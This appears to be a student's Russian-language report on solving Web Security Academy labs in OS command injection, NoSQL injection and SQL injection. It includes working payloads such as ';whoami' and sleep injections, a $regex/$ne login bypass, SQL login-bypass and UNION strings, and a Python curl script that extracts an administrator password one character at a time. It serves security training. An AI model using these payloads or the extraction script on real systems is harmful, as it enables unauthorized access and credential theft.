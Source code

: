 # Отчет по решению OS injection

## 1. Lab: OS command injection, simple case

Пошарился по лабе со включенным burp proxy, нашел post /product/stock, заинджектил в пост запрос `productId=2&storeId=1;whoami`

## 2. Lab: Blind OS command injection with time delays

В форме feedback можно поинжектить в поле email

` csrf=CvglT8HVqqhEjwmMgG9Z00uYphRnukWL&name=alaska&email=qwe%40ru.ru;sleep%2010;&subject=alaska&message=alaska`

## 3. Lab: Blind OS command injection with output redirection

Инжект находится в том же месте, где раньше, вывод можно посмотреть по пути /image?filename=who.txt

# Отчет по решению NoSQL

## 1. Lab: Detecting NoSQL injection

Инжект производится такой строкой
```
https://0a8b009a035541b580d0a832008f0051.web-security-academy.net/filter?category=Gifts%27||1||%27
```


## 2. Lab: Exploiting NoSQL operator injection to bypass authentication
```
{"username":{
"$regex": "admin.*"},"password":{
"$ne":""}
}
```


## 3. Lab: Exploiting NoSQL injection to extract data

Нашел ручку /user/lookup, написал переборный скрипт

```
import subprocess

for i in range(30):

    result = subprocess.check_output(f"curl \"https://0a29004103d5c93c81b761b500610098.web-security-academy.net/user/lookup?user=administrator'+%26%26+this.password.length=='{i}\" -b \"session=gGfRWGzVNbFPkaRpdmbdDb6mU7GE1vyy\"",
                                         shell=True, stderr=subprocess.DEVNULL).decode()
    resfind = result.find("Could not find user")
    if resfind == -1:
        pass_len=i


print(pass_len)
alphabet="abcdefghijklmnopqrstuvwxyz"
pass_us = ""
for i in range(pass_len):
    for j in alphabet:
        result = subprocess.check_output(f"curl \"https://0a29004103d5c93c81b761b500610098.web-security-academy.net/user/lookup?user=administrator'+%26%26+this.password%5b{i}%5d+%3d%3d+'{j}\" -b \"session=gGfRWGzVNbFPkaRpdmbdDb6mU7GE1vyy\"",
                                         shell=True, stderr=subprocess.DEVNULL).decode()

        resfind = result.find("Could not find user")
        if resfind == -1:
            pass_us+=j
            print(pass_us)
            continue

```

# Отчет по решению SQL injection

## 1. Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Нашел, что в url параметрах в запросе при поиске пятисотит при вставке '1=1--

```
https://0aac002e042225ac814c524600eb0023.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%271=1--
```

Добавил туда OR и решил

## 2. Lab: SQL injection vulnerability allowing login bypass

В пароль вставил peter'+OR+1=1--

## 3. Lab: SQL injection attack, querying the database type and version on Oracle

Поигрался со строкой url и информацией из шпоры 

```
/filter?category=Clothing%2c+shoes+and+accessories'+UNION+SELECT+banner,+null+FROM+v$version--
```

## 4. Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

То же что и в прошлом пункте

```
GET /filter?category=Clothing%2c+shoes+and+accessories%27+UNION+SELECT+@@version,+null#
```
